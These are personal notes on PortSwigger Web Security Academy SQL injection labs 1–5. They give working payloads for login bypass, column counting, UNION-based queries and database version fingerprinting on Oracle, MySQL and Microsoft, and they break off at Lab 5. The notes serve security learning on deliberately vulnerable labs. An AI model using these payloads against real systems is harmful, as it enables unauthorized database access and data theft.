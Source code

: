 ## Labs 1-10
[SQL injection cheat sheet | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)
Burp suite: `Ctr+u` for URL encoding. `Ctr+space` to forward a request in the repeater. (Issue repeater request shortcut in hotkeys)
1. category=' OR TRUE --
2. username: `administrator OR TRUE --` with any pass

Note: All labs till blind SQL injection follow one set of steps (with a slight variation based on the database type)
Those steps:

### Lab3
[Lab: SQL injection attack, querying the database type and version on Oracle | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

```
https://0adc00b303ba9cca804f087000f2009b.web-security-academy.net/filter?category=Pets
https://0adc00b303ba9cca804f087000f2009b.web-security-academy.net/filter?category=Pets' ORDER BY 1--
# similarly tried 2-- and 3--; 3-- returned with an internal server error
```

So, we must return 2 columns
```
https://0adc00b303ba9cca804f087000f2009b.web-security-academy.net/filter?category=Pets' UNION select NULL,NULL from dual--
Again, 3NULLS returned an internal server error. This confirms that we must return two columns

' union select 'a','a' from dual--
Also, remove the category =pets.
```

`' union select banner,NULL from v$version--` # similarly version from v$instance--

### Lab4
[Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
```
# same thing microsoft and mysql
' union select @@version,null--%20 # for space
```

### Lab5
[Lab: SQL injection attack, listing the database contents on non-Oracle databases | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

> Remember, You must figure out the database version and type so that you can use the following payloads. Learn more from the cheat sheet. [SQL injection cheat sheet | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)
{: .prompt-info }
